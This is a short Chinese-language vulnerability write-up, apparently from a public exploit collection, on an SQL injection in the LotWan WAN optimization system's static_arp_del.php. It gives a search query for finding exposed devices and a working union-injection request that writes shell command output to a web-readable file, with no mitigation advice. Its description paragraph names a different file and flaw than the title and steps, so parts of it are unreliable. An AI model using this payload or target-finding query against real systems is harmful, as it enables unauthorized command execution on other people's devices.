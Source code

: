 # 华夏创新 LotWan广域网优化系统 static_arp_del.php SQL注入漏洞

# 华夏创新 LotWan广域网优化系统 static_arp_del.php SQL注入漏洞

## 漏洞描述

华夏创新 LotWan广域网优化系统check_instance_state.php文件参数 ins存在命令拼接，导致远程命令执行漏洞

## 漏洞影响

```
华夏创新 LotWan广域网优化系统
```

## 网络测绘

```
title="LotWan 广域网优化系统"
```

## 漏洞复现

登录页面

![image-20220519182931309](/images/202205191829394.png)

存在漏洞的文件为 static_arp_del.php, 通过union注入写入文件

```
/acc/bindipmac/static_arp_del.php?x=1&arpName=1' and 0 union select 1,'||id>cmd.txt||',3,4,5,6,7,8--
```

再访问 `/acc/bindipmac/cmd.txt`

![image-20220519182946695](/images/202205191829769.png)


